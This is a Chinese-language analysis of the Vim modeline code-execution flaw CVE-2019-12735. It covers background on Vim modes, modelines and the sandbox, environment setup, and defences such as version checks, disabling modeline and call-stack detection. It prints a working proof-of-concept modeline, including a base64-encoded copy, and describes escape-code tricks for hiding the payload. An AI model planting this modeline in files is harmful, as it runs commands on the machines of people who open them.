









Vim漏洞分析附件(cve-2019-12735)
背景知识
Vim的模式
参考：http://vimdoc.sourceforge.net/htmldoc/intro.html#vim-modes-intro
Normal mode
通过 $ vim file 打开文件后进入的模式
$ vim hello.txt
Hello
~
~
~ ...
~
"hello.txt" 1L, 6C
通过source!加载的脚本的内容，就是相当于在这个模式下输入的内容
Command-line mode
-
在normal mode下输入
: ( and / ? )进入Command-line mode -
在Vim的Command-line模式下，可以执行Vim commands
- 其中，通过
:!{shell cmd}可以执行shell命令
# http://vimdoc.sourceforge.net/htmldoc/various.html#:!
$ vim
:!uname -a
Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
Press ENTER or type command to continue
Ex mode
-
通过
$ vim -e file进入该模式 -
也可以在Normal mode下输入Q进入该模式
- 这个模式的特点是可以连续执行Vim command，可以类比 python 的命令行模式
- 通过source加载的脚本的内容，就是相当于在这个模式下输入的内容
Insert mode
-
在Normal mode下输入i可以进入Insert mode, 这个模式相当于编辑模式，大部分操作和在记事本中一样。
-
另外还有 "I", "a", "A", "o", "O", "c", "C", "s" or S"也可以从Normal mode进入Insert mode.
-
具体模式转换见: http://vimdoc.sourceforge.net/htmldoc/intro.html#vim-modes-intro
-
其中"S"表示剪切当前行，并进入Insert mode
# :help S
# ["x]S Delete [count] lines [into register x] and start
# insert. Synonym for "cc" |linewise|.
# Demo演示
$ vim 1.vim
:let i = 1
:while i < 10
: let a = getline(i)
: if empty(a)
: break
: endif
: echo "Line:" i "is" a
: let i += 1
:endwhile
~
...
~
"1.vim" 9L, 147C
S(shift+s)
:while i < 10
: let a = getline(i)
: if empty(a)
: break
: endif
: echo "Line:" i "is" a
: let i += 1
:endwhile
~ ...
~
-- INSERT --
<ESC>
p (p是粘贴)
p
:let i = 1
:let i = 1
:while i < 10
: let a = getline(i)
: if empty(a)
: break
: endif
: echo "Line:" i "is" a
: let i += 1
:endwhile
~ ...
Vim options的概念
Vim的options相当于编辑器的配置，通过command-line模式的:set命令手动配置，也可以通过脚本自动配置，自动配置的方法主要是通过Vim脚本(.vimrc, .exrc)或者modeline方式。
Vim的modeline功能
modeline用于在文本文件的首部或者尾部设置vim options, 让vim打开文件的时候自动加载并执行该配置
# modeline 有两种格式
# 第一种格式： [text]{white}{vi:|vim:|ex:}[white]{options}
# vi:noai:sw=3 ts=6
# - text可以用来放置编程语言的注释(python的 # , C 的// )，是可选的
# - vi:之前一定要有空格
# - options用":"或者空格分隔
# 第二种格式：
# [text]{white}{vi:|vim:|ex:}[white]se[t] {options}:[text]
# /* vim: set ai tw=75: */
# - 首尾都可以用text主要是支持(C的这种注释 "/**/")，首尾的text都是可选的
# - vim: 后面要有空格
# - 要有一个set(可以缩写成 se，后面跟空格)
# - options用空格分隔
# - 结尾要有冒号 :
开启modeline
# 编辑~/.vimrc
# 添加：
set modeline
set modelines=5
具体使用
# 用Vim打开文本：
$ vim a.py
# python3
# coding=utf-8
import platform
def func1():
for i in range(10):
print("hello vim")
print(platform.platform())
# cursor is here
def main():
func1()
main()
# 打开a.py后, 默认的tab长度是8个空格，不支持回车自动缩进
# 可以通过tabstop和autoindent两个选项来配置
:set tabstop=4
:set autoindent
# 效果如下：
# python3
# coding=utf-8
import platform
def func1():
for i in range(10):
print("hello vim")
print(platform.platform())
# cursor is here
def main():
func1()
main()
# 但是下次打开后，又需要再配置一次
# 可以通过modeline来使这个配置每次打开a.py文件时都生效
# 在文件开头添加一行内容： # vim: set tabstop=4 autoindent:
# 再次打开效果如下：
$ vim a.py
# vim: set tabstop=4 autoindent:
# python3
# coding=utf-8
import platform
def func1():
for i in range(10):
print("hello vim")
print(platform.platform())
# cursor is here
def main():
func1()
main()
For security reasons, only a subset of options is permitted in modelines, and if the option value contains an expression, it is executed in a sandbox
为了安全原因，只有部分options可以在modeline中配置，如果option的值是一个表达式(比如配置foldexpr)，那么表达式会在vim的sandbox中执行
Vim表达式和脚本
根据Vim Script语法编写Vim脚本，参考：
https://github.com/name5566/vim-config/blob/master/vim_script.md http://vimdoc.sourceforge.net/htmldoc/usr_41.html http://vimdoc.sourceforge.net/htmldoc/eval.html http://vimdoc.sourceforge.net/htmldoc/eval.html#functions
# 创建一个Vim脚本1.vim
$ vim 1.vim
# 按照Vim Script语法编辑脚本
:let i = 1
:while i < 10
: let a = getline(i)
: if empty(a)
: break
: endif
: echo "Line:" i "is" a
: let i += 1
:endwhile
# 保存
:w
# 用source指令加载自己并执行
:source %
# or
:source 1.vim
# 执行结果：
Line: 1 is :let i = 1
Line: 2 is :while i < 10
Line: 3 is : let a = getline(i)
Line: 4 is : if empty(a)
Line: 5 is : break
Line: 6 is : endif
Line: 7 is : echo "Line:" i "is" a
Line: 8 is : let i += 1
Line: 9 is :endwhile
Press ENTER or type command to continue
# 在编辑其他文件的时候加载并执行一个Vim脚本
$ vim a.txt
Hello
Vim
Goodbye!
~
:source 1.vim
Line: 1 is Hello
Line: 2 is Vim
Line: 3 is Goodbye!
Press ENTER or type command to continue
source命令
source命令用于从Vim脚本文件中读取Vim指令并执行，参考：http://vimdoc.sourceforge.net/htmldoc/repeat.html#using-scripts
:help source
:so[urce] {file}
Read Ex commands from {file}.
These are commands that start with a ":".
:so[urce]! {file}
Read Vim commands from {file}.
These are commands that are executed from Normal mode,
like you type them.
source和source!的区别在于：
- source是从文件读取 Ex commands, 也就是说文件的内容必须是 :cmd 的形式
- source!是从文件读取 Normal mode下执行的vim commands, 也就是说文件中的
<ESC> i /字符这些都会当成Normal mode下的用户输入(like you type them)
# 创建一个vim脚本，写入内容iHello,World后保存
$ vim 5.vim
iHello,World
:wq
# 用source! 加载并执行脚本
$ vim
:source! 5.vim
# 效果如下，打开后直接进入了Insert mode
Hello,World
~
~
...
~
~
-- INSERT --
# 而用source加载则会报错
$ vim
:source 5.vim
Error detected while processing 5.vim:
line 1:
E492: Not an editor command: iHello,World
Press ENTER or type command to continue
vim执行shell命令
通过在command-line mode下，使用 !{cmd}来执行shell命令
$ vim
:!uname -a
Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
Press ENTER or type command to continue
# 一个可以执行shell命令的vim脚本
$ vim a.vim
<i>
:!uname -a
~
~
<ESC>
:source %
... Darwin Kernel Version 18.2.0: Thu Dec 20 20:46:53 PST 2018; root:xnu-4903.241.1~1/RELEASE_X86_64 x86_64
Press ENTER or type command to continue
# 特殊的函数execute
# $ vim
# :help execute()
# execute({command} [, {silent}]) *execute()*
# Execute an Ex command or commands and return the output as a
# string.
# {command} can be a string or a List. In case of a List the
# lines are executed one by one.
# ...
# The optional {silent} argument can have these values:
# "" no `:silent` used
# "silent" `:silent` used
# "silent!" `:silent!` used
# The default is "silent".
# Note that with "silent!", unlike `:redir`, error messages are dropped
# ...
$ vim b.vim
: call execute("source a.vim", "")
... Darwin Kernel Version 18.2.0: Thu Dec 20 20:46:53 PST 2018; root:xnu-4903.241.1~1/RELEASE_X86_64 x86_64
Press ENTER or type command to continue
# execute函数在ubuntu上安装的Vim中没有，但是还有另一个可以执行shell命令：assert_fails()
# $ vim
# :help assert_fails
#
# assert_fails({cmd} [, {error}]) *assert_fails()*
# Run {cmd} and add an error message to |v:errors| if it does
# NOT produce an error.
# When {error} is given it must match in |v:errmsg|.
$ vim b.vim
: call assert_fails("source a.vim")
... Darwin Kernel Version 18.2.0: Thu Dec 20 20:46:53 PST 2018; root:xnu-4903.241.1~1/RELEASE_X86_64 x86_64
Press ENTER or type command to continue
silent命令
# :help silent
# *:sil* *:silent* *:silent!*
# :sil[ent][!] {command}
# Execute {command} silently.
# Normal messages will not
# be given or added to the message history.
# When [!] is added, error messages will also be
# skipped, and commands and mappings will not be aborted
# when an error is detected.
# 1. 编写一个文件，不使用silent，保存后会在底部出现回显信息
vim 1.txt
i
something
~ ...
~
<ESC>
:w
"a.vim" 1L, 11C written
# 2. 使用silent，w命令的回显信息就消失了
vim 1.txt
i
somenthing
~ ...
~
:silent! w
# 3. silent! 可以用来去除错误信息
vim 1.txt
i
something
<ESC>
:w
:file | silent! Anycommand or anytext'\' \; "
something
~ ...
~
"1.vim" line 1 of 1 --100%-- col 9
redraw命令
# :help redraw!
# *:redr* *:redraw*
# :redr[aw][!]
# Redraw the screen right now.
# When ! is included it is cleared first.
# ...
# 立刻刷新屏幕，如果设置了!则先清除屏幕内容
# 每条命了执行完，底部会留下历史记录， redraw!会清除掉记录
# 屏幕会清空
vim 1.txt
i
somenthing
~ ...
~
:silent! w
:redraw!
something
~ ...
~
file命令
# 输入当前文件信息
vim 1.txt
i
something
<ESC>
:w
:file
something
~ ...
~
"1.vim" line 1 of 1 --100%-- col 9
system函数
system({expr} [, {input}]) *system()* *E677*
Get the output of the shell command {expr} as a string.
...
$ vim
:let a = system('pwd')
:echo a
~
/home/invincible/Desktop/test/vim_test
Press ENTER or type command to continue
assert_fails函数
执行一个vim command, 如果没有出错，则将command的执行信息保存到v:errors全局变量中
:help assert_fails
assert_fails({cmd} [, {error}])
Run {cmd} and add an error message to |v:errors|
if it does NOT produce an error.
When {error} is given it must match in |v:errmsg|.
$ vim
:call assert_fails("echo 'hello'")
~
...
~
hello
:echo v:errors
['command did not fail: echo ''hello''']
编写一个可以执行shell命令的vim脚本
$ vim a.vim
<i>
:!uname -a
~
~
<ESC>
:wq
# 用assert_faild执行vim的source指令，加载vim脚本a.vim
$ vim
:call assert_fails("source a.vim")
Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
Press ENTER or type command to continue
:echo v:errormsg
['command did not fail: source a.vim']
Vim的folding功能
-
vim的folding功能用于对文本中的文本块（比如一个函数，一段注释）折叠和展开，可以类比为图形化编辑器编辑区侧栏的(+/-)。
-
foldmethod选项是用来配置Vim的代码折叠功能的，Vim给出了manual, indent, expr, syntax, diff, marker这几种代码折叠的方式，下面👇是indent方式的效果：
# 文本如下
$ vim a.py
# python3
# coding=utf-8
import platform
def func1():
for i in range(10):
print("hello vim")
print(platform.platform())
def main():
func1()
main()
# 1. 设置foldmethod选项
:set foldenable
:set foldmethod=indent
# 效果如下
# python3
# coding=utf-8
import platform
def func1():
+-- 3 lines: for i in range(10):-------------------------------------
def main():
func1()
main()
如果不满足于给定的几种方式，可以将foldmethod设置为expr来自定义代码块的特征
# 文本如下
$ vim a.py
# python3
# coding=utf-8
import platform
def func1():
for i in range(10):
print("hello vim")
print(platform.platform())
def main():
func1()
main()
:set foldenable
:set foldmethod=expr
:set foldexpr=getline(v:lnum)[0]==\"#\"
# foldexpr用于设置文本满足的条件，满足条件的文本块会被折叠
# 该配置的意思是通过Vim的getline函数，判断每一行文本的第一个字符是否为"#"，将满足条件的相邻的行视为一个文本块，并将其折叠
# 效果如下:
+-- 2 lines: # python3-----------------------------------------------
import platform
def func1():
for i in range(10):
print("hello vim")
print(platform.platform())
def main():
func1()
main()
vim的sandbox概念
11. The sandbox *eval-sandbox* *sandbox* *E48*
The 'foldexpr', 'formatexpr', 'includeexpr', 'indentexpr', 'statusline' and
'foldtext' options may be evaluated in a sandbox.
This gives some safety for when these options are set from a modeline.
These items are not allowed in the sandbox:
- changing the buffer text
- defining or changing mapping, autocommands, functions, user commands
- setting certain options (see |option-summary|)
- setting certain v: variables (see |v:var|) *E794*
- executing a shell command
- reading or writing a file
- jumping to another buffer or editing a file
- executing Python, Perl, etc. commands
ANSI escape codes
参考：
https://www.gnu.org/software/screen/manual/html_node/Control-Sequences.html
https://notes.burke.libbey.me/ansi-escape-codes/
https://learnku.com/articles/26231
\x1b[1G
\x1b[1G 光标移动到当前行的第Pn个位置
# ESC [ Pn G Cursor horizontal position
# $ echo -e "Hello\x1b[1GA" > a.txt
# $ cat a.txt
# Aello
# $ echo -e "Hello\x1b[2GA" > a.txt
# $ cat a.txt
# HAllo
# $ echo -e "Hello\x1b[3GA" > a.txt
# $ cat a.txt
# HeAlo
\x1b[D
\x1b[D 光标左移1个位置
# ESC [ Pn D Cursor Left
# 光标左移Pn个位置
# $ echo -e "Hello\x1b[D" > a.txt
# $ cat a.txt
# Hello
# $ echo -e "Hello\x1b[D\x1b[D\x1b[DAAA" > a.txt
# $ cat a.txt
# HeAAA
# $ echo -e "Hello\x1b[5DAAA" > a.txt
# $ cat a.txt
# AAAlo
\x1b[K
\x1b[K 清除光标到当前位置的内容
# * ESC [ K erase to end of line (inclusive)
# 清除光标到当前位置的内容(不会改变文本)，可以配合\x1b[G使用
$ echo -e "AAAA\x1b[1G\x1b[KBBBB" > a.txt
$ cat a.txt
BBBB
$ echo -e "ABCD\x1b[2G\x1b[KEEEE" > a.txt
$ cat a.txt
AEEEE
$ echo -e "ABCD\x1b[3G\x1b[KEEEE" > a.txt
$ cat a.txt
ABEEEE
$ echo -e "ABCD\x1b[KEEEE" > a.txt
$ cat a.txt
ABCDEEEE
\x1b[2K

\x1b[?7l
- ESC [ ? 7 l auto wrap off
-
\x1b[?7l 关闭自动换行 (l -> low)
-
\x1b[?7h 开启自动换行 (h -> high)
- 这个命令的功能是控制Terminal的显示功能，默认情况下，如果文本长度超过Terminal的显示长度，则会自动换行，如果关闭了自动换行，则会全部显示在一行，超出的部分被"截断"

\x1b[?7l 和 \x1b[1G 配合使用的效果：
使用前 ：

使用后：

\x1b[?7l 和 \x1b[1G + \x1b[K 配合使用的效果：

\x16
参考:
http://defindit.com/ascii.html
https://zh.wikipedia.org/wiki/%E6%8E%A7%E5%88%B6%E5%AD%97%E7%AC%A6
这是一个ascii码的控制字符，代表 ctrl+v，它的功能可以理解为：让下一个输入识别为普通字符
$ cat a.py
a = input("> ")
print(ord(a[0]))
$ python3 a.py
# 想直接输入ctrl+c, 但程序退出，被识别成了中断信号
> ^CTraceback (most recent call last):
File "a.py", line 1, in <module>
a = input("> ")
KeyboardInterrupt
$ python3 a.py
# 依次按下ctrl+v和ctrl+c, 就顺利打印出了ctrl+c的ascii码
> ^C
3
为什么Exp中需要\x16控制字符
echo -e "iHello\x1b[D" > a.vim
$ vim
:source! a.vim
Hello
~ ...
~
E388: Couldn't find definition
这个报错可以手动输入下面的指令产生：
$ vim
i
Hello
<ESC>
[
shift+d
# 如果加上\x16则\x1b不会被解析成<ESC>按键，而是输入字符
echo -e "iHello\x16\x1b[D" > a.vim
Hello^[[D
~ ...
~
-- INSERT --
exp修改说明
- nc -> nc.traditional
Ubuntu上的nc不包含-e选项，解决办法是安装nc.traditional来替代nc命令
- \x1b[K -> \x1b[2K 和 \x1b[D -> \x1b[2D 和空格是用于清除不可见字符\x16和引号
修改前:


修改后:


Vim安装
apt自动安装
apt-get install vim-runtime=2:7.4.1689-3ubuntu1
apt-get install vim-common=2:7.4.1689-3ubuntu1
apt-get install vim=2:7.4.1689-3ubuntu1
使用deb包安装
链接:https://pan.baidu.com/s/1rn0RqwWn0tpgk9PY0v00Jw 密码:m0qc
sudo dpkg -i vim_2%3a7.4.1689-3ubuntu1_amd64.deb
下载源码手动编译
# 下载源码，编译生成符号
# 参考：https://www.unix.com/programming/156665-compile-debug-vim-source-code.html
$ mkdir ~/MyVim
$ cd ~/MyVim
$ sudo apt-get install libncurses5-dev libncursesw5-dev
$ apt-get source vim=2:7.4.1689-3ubuntu1
$ cd src
$ cp Makefile Makefile.orig
$ vim Makefile
$ diff Makefile Makefile.orig
540c540
< CFLAGS = -g
---
> #CFLAGS = -g
908c908
< prefix = ~/MyVim
---
> #prefix = $(HOME)
1852c1852
< # $(STRIP) $(DEST_BIN)/$(VIMTARGET)
---
> $(STRIP) $(DEST_BIN)/$(VIMTARGET)
$ cd ..
$ make && make install
$ cd bin
$ gdb ./vim
Docker复现环境搭建
可以通过Docker快速搭建poc复现环境
$ ls
Dockerfile
$ cat Dockerfile
From ubuntu:16.04
RUN set -e -x ;\
apt update ;\
apt-get install -y vim-runtime=2:7.4.1689-3ubuntu1 ;\
apt-get install -y vim-common=2:7.4.1689-3ubuntu1 ;\
apt-get install -y vim=2:7.4.1689-3ubuntu1 ;\
echo "OiF1bmFtZSAtYXx8IiB2aTpmZW46ZmRtPWV4cHI6ZmRlPWFzc2VydF9mYWlscygic291cmNlXCFcIFwlIik6ZmRsPTA6ZmR0PSIK" | base64 --decode > /root/poc.txt
$ sudo docker build -t vim-cve-2019-12735 .
$ sudo docker run -it vim-cve-2019-12735 /bin/bash
echo -e "set modeline\nset modelines=5" > ~/.vimrc
cd root
vim poc.txt
漏洞防护
package版本检查
- 查看可安装的Vim版本
# 查看可安装的Vim版本
$ apt-cache policy vim
vim:
Installed: (none)
Candidate: 2:7.4.1689-3ubuntu1.4
Version table:
2:7.4.1689-3ubuntu1.4 500
500 https://mirrors.tuna.tsinghua.edu.cn/ubuntu xenial-updates/main amd64 Packages
500 https://mirrors.tuna.tsinghua.edu.cn/ubuntu xenial-security/main amd64 Packages
2:7.4.1689-3ubuntu1 500
500 https://mirrors.tuna.tsinghua.edu.cn/ubuntu xenial/main amd64 Packages
# 从Vim包的changelog中获取修复漏洞的版本号 2:7.4.1689-3ubuntu1.3
$ cat vim_changelog.txt |grep CVE-2019-12735 -C 10
...
vim (2:7.4.1689-3ubuntu1.3) xenial-security; urgency=medium
* SECURITY UPDATE: Arbitrary code execution
- debian/patches/CVE-2019-12735.patch: disallow
sourcing a file in the sandbox in src/getchar.c
- CVE-2019-12735
* SECURITY UPDATE: Buffer overflow
- debian/patches/CVE-2017-5953.patch: check for an
invalid length in order to avoid a overflow in
src/spell.c.
- CVE-2017-5953
-- Leonidas S. Barbosa <leo.barbosa@canonical.com> Fri, 07 Jun 2019 12:35:43 -0300
- 安装存在漏洞的版本
$ sudo apt install vim-common=2:7.4.1689-3ubuntu1
$ sudo apt install vim-runtime=2:7.4.1689-3ubuntu1
$ sudo apt install vim=2:7.4.1689-3ubuntu1
# 通过apt-cache 查看已安装的版本 < 2:7.4.1689-3ubuntu1.3
$ apt-cache policy vim:
Installed: 2:7.4.1689-3ubuntu1
Candidate: 2:7.4.1689-3ubuntu1.4
...
# 配置vimrc开启modeline功能
vim ~/.vimrc
i
set modeline
set modelines=5
<ESC>
:w
# 测试效果
$ vim poc.txt
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
Press ENTER or type command to cont
- 安装最新版本的vim
# 安装最新版本的vim
$ sudo apt install vim
# 通过apt-cache 查看已安装的版本 > 2:7.4.1689-3ubuntu1.3
$ apt-cache policy vim
vim:
Installed: 2:7.4.1689-3ubuntu1.4
Candidate: 2:7.4.1689-3ubuntu1.4
...
# 配置vimrc开启modeline功能
vim ~/.vimrc
i
set modeline
set modelines=5
<ESC>
# 测试效果，未触发漏洞
$ vim poc.txt
:!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
~ ...
~
"poc.txt" 1L, 75C
配置检查
# 检查modeline配置:
$ vim
:verbose set modeline?
:verbose set modelines?
# 如果显示nomodeline, nomodelines表示没有配置
# 如果配置了，则会显示：
...
～
modeline
Last set from ~/.vimrc
Press ENTER or type command to continue
...
～
modelines=5
Last set from ~/.vimrc
Press ENTER or type command to continue
# 关闭modeline配置
vim ~/.vimrc
删除
set modeline
set modelines=5
添加
set nomodeline
:wq
# 再次检查
$ vim
:verbose set modeline?
~
nomodeline
Last set from ~/.vimrc
Press ENTER or type command to continue
poc验证
读取stdout
代码执行vim打开poc读取stdout根据输出判断(目前的来看，获取vim的输出貌似有些麻烦)
不存在漏洞时重定向stdout:
$ vim poc.txt >out.txt
Vim: Warning: Output is not to a terminal
$ cat out.txt
# 内容为空
存在漏洞时重定向stdout:
$ vim poc.txt > out.txt
Vim: Warning: Output is not to a terminal
Press ENTER or type command to continue
$ cat out.txt
Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
检查调用栈
类似的，通过代码执行vim打开poc，ptrace调用栈，检查是否有do_shell调用无漏洞时正常打开poc文件后的调用栈：
gdb-peda$ bt
#0 0x00007fca6f40b5b3 in __select_nocancel ()
#1 0x000000000052a69c in RealWaitForChar (fd=0x0,
#2 0x000000000052a444 in WaitForCharOrMouse
#3 0x000000000052a393 in WaitForChar (msec=0xffffffffffffffff)
#4 0x0000000000526147 in mch_inchar (buf=0x86c66a <typebuf_init+42>
#5 0x00000000005c381e in ui_inchar (buf=0x86c66a <typebuf_init+42>
#6 0x00000000004ad1fe in inchar (buf=0x86c66a <typebuf_init+42> "",
#7 0x00000000004ace26 in vgetorpeek (advance=0x1) at getchar.c:2832
#8 0x00000000004ab07e in vgetc () at getchar.c:1605
#9 0x00000000004ab526 in safe_vgetc () at getchar.c:1801
#10 0x00000000004f8512 in normal_cmd (oap=0x7ffefbcad0c0,
#11 0x00000000005e96fb in main_loop (cmdwin=0x0, noexmode=0x0) at
#12 0x00000000005e90e3 in main (argc=0x2, argv=0x7ffefbcad3b8) at
...
存在漏洞时，打开poc文件后的调用栈，有一个明显的do_shell的调用:
gdb-peda$ bt
#0 0x00007f4ba14135b3 in __select_nocancel ()
#1 0x000000000052a69c in RealWaitForChar (fd=0x0,
#2 0x000000000052a444 in WaitForCharOrMouse
#3 0x000000000052a393 in WaitForChar (msec=0xffffffffffffffff)
#4 0x0000000000526147 in mch_inchar (buf=0x86c66a <typebuf_init+42>
#5 0x00000000005c381e in ui_inchar (buf=0x86c66a <typebuf_init+42>
#6 0x00000000004ad1fe in inchar (buf=0x86c66a <typebuf_init+42> "",
#7 0x00000000004ace26 in vgetorpeek (advance=0x1) at getchar.c:2832
#8 0x00000000004ab07e in vgetc () at getchar.c:1605
#9 0x00000000004ab526 in safe_vgetc () at getchar.c:1801
#10 0x00000000004ce972 in wait_return (redraw=0x1) at message.c:901
#11 0x000000000045ce32 in do_shell (
cmd=0x15c7ea0 "uname -a||\" vi:fen:fdm=expr:fde=assert_fails(\"source!\\ %\"):fdl=0:fdt=\"", flags=0x0) at ex_cmds.c:1572
#12 0x000000000045c50c in do_bang (addr_count=0x0,
#13 0x000000000047f480 in ex_bang (eap=0x7ffe20228c50) at
#14 0x00000000004741d3 in do_one_cmd (cmdlinep=0x7ffe20228d80,
#15 0x0000000000470d89 in do_cmdline (cmdline=0x0,
#16 0x00000000005002cd in nv_colon (cap=0x7ffe202293f0) at
#17 0x00000000004f9650 in normal_cmd (oap=0x7ffe20229480,
#18 0x00000000005e96fb in main_loop (cmdwin=0x0, noexmode=0x0) at
#19 0x00000000005e90e3 in main (argc=0x2, argv=0x7ffe20229778) at